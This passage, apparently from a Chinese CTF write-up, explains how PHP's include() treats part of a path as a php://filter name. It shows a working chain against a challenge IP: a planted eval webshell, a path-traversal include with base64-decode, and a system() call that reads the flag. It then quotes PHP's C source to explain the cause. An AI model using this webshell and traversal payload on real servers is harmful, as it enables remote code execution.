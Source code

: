 发现这么一行很奇妙的warning：

```
Warning: include(): unable to locate filter "d0165506bd" in /var/www/html/index.php on line 16
```

传过去的不是文件名吗，怎么被当成过滤器了？？？

但是能成功包含出内容，所以这是又被当成过滤器又被当成文件了？那尝试路径穿越写马：

```
http://124.70.181.14:32766/?action=w&c=<?php eval($_POST[0]);?>



http://124.70.181.14:32766/?action=r&r=convert.base64-decode/../d0165506bd

0=system('cat /fl*');
```

成功getshell。





# 原理分析

至于为什么是这样的，拿vscode调试一下底层的C就知道了。

```php
<?php
include("php://filter/resource=./read=convert.base64-decode/../test.php");
```



入口点是`php-src-PHP-7.2\ext\standard\php_fopen_wrapper.c`的`php_stream_url_wrap_php()`函数，放出关键代码：

```c
php_stream * php_stream_url_wrap_php(php_stream_wrapper *wrapper, const char *path, const char *mode, int options,
									 zend_string **opened_path, php_stream_context *context STREAMS_DC) /* {{{ */
{
	int fd = -1;
	int mode_rw = 0;
	php_stream * stream = NULL;
	char *p, *token, *pathdup;
	zend_long max_memory;
	FILE *file = NULL;
#ifdef PHP_WIN32
	int pipe_requested = 0;
#endif

	if (!strncasecmp(path, "php://", 6)) {
		path += 6;
	}

.......
	} else if (!strncasecmp(path, "filter/", 7)) {
		/* Save time/memory when chain isn't specified */
		if (strchr(mode, 'r') || strchr(mode, '+')) {
			mode_rw |= PHP_STREAM_FILTER_READ;
		}
		if (strchr(mode, 'w') || strchr(mode, '+') || strchr(mode, 'a')) {
			mode_rw |= PHP_STREAM_FILTER_WRITE;
		}
		pathdup = estrndup(path + 6, strlen(path + 6));
		p = strstr(pathdup, "/resource=");
		if (!p) {
```